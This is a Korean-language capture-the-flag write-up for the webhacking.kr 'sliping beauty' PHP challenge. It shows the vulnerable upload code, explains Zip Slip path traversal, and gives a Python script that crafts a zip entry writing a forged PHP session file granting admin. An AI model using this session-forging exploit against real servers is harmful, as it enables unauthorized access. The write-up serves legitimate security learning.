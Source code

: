 ```yaml
---
title: ["[Webhacking.kr] sliping beauty (PHP - 200)"]
date: 2024-12-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, php, zip slip, file upload]
---
```


```php
<?php
session_start();
if(!$_SESSION['uid']) $_SESSION['uid'] = "guest";
if($_SESSION['uid'] == "admin") include "/flag";
if($_FILES['upload']){
  $path = $_FILES['upload']['tmp_name'];
  $zip = new ZipArchive;
  if ($zip->open($_FILES['upload']['tmp_name']) === true){
    for($i = 0; $i < $zip->numFiles; $i++){
      $filename = $zip->getNameIndex($i);
      $filename_ = $filename.rand(10000000,99999999);
      if(strlen($filename) > 240) exit("file name too long");
      if(preg_match('/[\x00-\x1F\x7F-\xFF]/',$filename)) exit("no hack");
      if(copy("zip://{$_FILES['upload']['tmp_name']}#{$filename}", "./upload/{$filename_}")) echo "{$filename_} uploaded.<br>";
      else echo "{$filename_} upload failed.<br>";
    }
    $zip->close();
  }
}
highlight_file(__FILE__);
?>
```

세션이 시작되고 uid가 없으면 "guest"로 설정된다.  
uid가 `admin`이면, flag파일을 include한다.  

zip 파일을 업로드받아 처리하는데, 각 파일에 대해 랜덤한 숫자를 붙여 새 파일명을 만든다.  

파일명은 240자를 넘을 수 없고, `0x00`-`0x1F` 사이의 문자를 포함할 수 없다.  

메인 코드와 문제의 제목으로 미루어보아,  
Zip Slip 취약점을 사용하는 문제인 것 같다.  


### Zip Slip 취약점
Zip Slip은 ZIP 아카이브를 처리할 때 발생하는 Path Traversal 취약점의 한 종류이다.  

1. 작동 원리:
  * ZIP 파일 내부에 `../`와 같은 상대 경로를 포함한 파일명을 넣는다.
  * 압축 해제 시 이 경로를 제대로 검증하지 않으면 의도한 디렉토리 외부에 파일을 쓸 수 있다.

2. 예시:
```
test.zip
  └── ../../../attack.php
```

이런 구조의 ZIP 파일을 업로드하면,  
```
/var/www/html/upload/  (업로드 디렉토리)
/var/www/attack.php    (실제 저장은 상위 디렉토리로 이동)
```


해당 취약점을 이용해서 세션 파일을 조작할 수 있다.  

PHP의 세션 파일은 기본적으로 `/tmp` 또는 `/var/lib/php/sessions` 디렉토리에 `sess_[SESSION_ID]` 형식으로 저장된다.  
서버의 php코드에서 파일명 뒤에 랜덤한 숫자를 부여해주므로, 해당 숫자를 `SESSION_ID`로 사용할 수 있다.  

```python
import zipfile

zip_name = "exploit.zip"
session_path = "../../../../../../var/lib/php/sessions/sess_" 
session_content = "uid|s:5:\"admin\";"  

with zipfile.ZipFile(zip_name, 'w') as zf:
    zf.writestr(session_path, session_content)
```

python을 실행해서 생성된 zip 파일을 서버에 올리고, `sess_` 뒤의 랜덤한 8자리 숫자를 `SESSION_ID`로 하여 페이지에 접속하면 FLAG가 나온다.  


### 시행착오
처음에 문제를 접근할때, `/flag`파일에 대한 심볼릭 링크 파일을 생성해서 업로드했는데 풀리지 않았다.  
이는 PHP의 `copy()`함수의 특성 때문인데,  
PHP `copy()`함수는 심볼릭 링크를 따라가지 않고 파일의 메타데이터만 복사하는 로우레벨 연산을 수행한다.